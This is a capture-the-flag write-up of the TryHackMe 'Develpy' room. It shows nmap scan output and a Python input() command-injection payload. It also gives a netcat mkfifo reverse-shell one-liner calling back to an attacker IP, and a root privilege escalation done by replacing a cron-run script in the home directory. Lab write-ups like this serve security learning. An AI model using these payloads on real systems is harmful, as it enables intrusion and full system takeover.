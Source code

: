 ```yaml
---
slug: develpy
title: THM Develpy writeup
description: Tryhackme develpy room writeup
authors: ["shivam"]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/47bd9da3ef003a03478334c93013fd3a.png
tags: ["python", "crontab", "command injection"]
---
```


Hello everyone,

Today we are going to solve develpy from Tryhackme. we will see python command injection and privilege escalation with crontab.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/47bd9da3ef003a03478334c93013fd3a.png)

<!--truncate-->

## Nmap results

```c
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
|_  256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)
10000/tcp open  snet-sensor-mgmt?
| fingerprint-strings:
|   GenericLines:
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   GetRequest:
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'GET' is not defined
|   HTTPOptions, RTSPRequest:
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'OPTIONS' is not defined
|   NULL:
|     Private 0days
|_    Please enther number of exploits to send??:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port10000-TCP:V=7.91%I=7%D=9/3%Time=6132570A%P=x86_64-pc-linux-gnu%r(NU
SF:LL,48,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n\x20
SF:Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20")%r
SF:(GetRequest,136,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r
SF:\n\r\n\x20Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\
SF:?:\x20Traceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File\
SF:x20\"\./exploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20\
SF:x20num_exploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x20
SF:of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string
SF:>\",\x20line\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'GET'\x20
SF:is\x20not\x20defined\r\n")%r(HTTPOptions,13A,"\r\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20of
SF:\x20exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20cal
SF:l\x20last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20in
SF:\x20<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20P
SF:lease\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)
SF:\r\n\x20\x20File\x20\"<string>\",\x20line\x201,\x20in\x20<module>\r\nNa
SF:meError:\x20name\x20'OPTIONS'\x20is\x20not\x20defined\r\n")%r(RTSPReque
SF:st,13A,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n\x2
SF:0Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20Tra
SF:ceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File\x20\"\./e
SF:xploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20\x20num_ex
SF:ploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x20of\x20exp
SF:loits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string>\",\x20l
SF:ine\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'OPTIONS'\x20is\x2
SF:0not\x20defined\r\n")%r(GenericLines,13B,"\r\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20of\x20
SF:exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20call\x2
SF:0last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20in\x20
SF:<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20Pleas
SF:e\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\n
SF:\x20\x20File\x20\"<string>\",\x20line\x200\r\n\x20\x20\x20\x20\r\n\x20\
SF:x20\x20\x20\^\r\nSyntaxError:\x20unexpected\x20EOF\x20while\x20parsing\
SF:r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.32 seconds
```

---

--> i found nothing after opening port `10000` on browser but i knew that it's executing python code so let's try to connect with netcat

`nc <ip> <port>`

--> and i found this :

![](Attachments/Pastedimage20210903143044.png)

--> that means it's pinging tryhackme 2 times so we have to do something called `python command injection`

--> so i found this website for this

https://www.stackhawk.com/blog/command-injection-python/

--> and i made this payload

```bash
__import__('os').system("id")
```

--> and i got the result of id command !

![](Attachments/Pastedimage20210903143250.png)

--> so now we can get the reverse shell from this !

---

```bash
__import__('os').system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.152 4444 >/tmp/f")
```

---

## Privesc

--> i found 2 files in `/home/king` `root.sh` and `run.sh` so i think there should be some cronjob running in the backend so i checked `/etc/crontab` and found 3 cronjobs

![](Attachments/Pastedimage20210904035052.png)

--> then i executed `pspy` and found that `root.sh` is running as root every 1 min

--> but we don't have permissions to write on that file

--> so i deleted `root.sh` file because it's in our home directory so we can delete it and after i addded reverse shell in that file and gav e `777` permission to execute it !

--> now just start listner on netcat

--> and after 1 minute i got root !

![](Attachments/Pastedimage20210904035326.png)
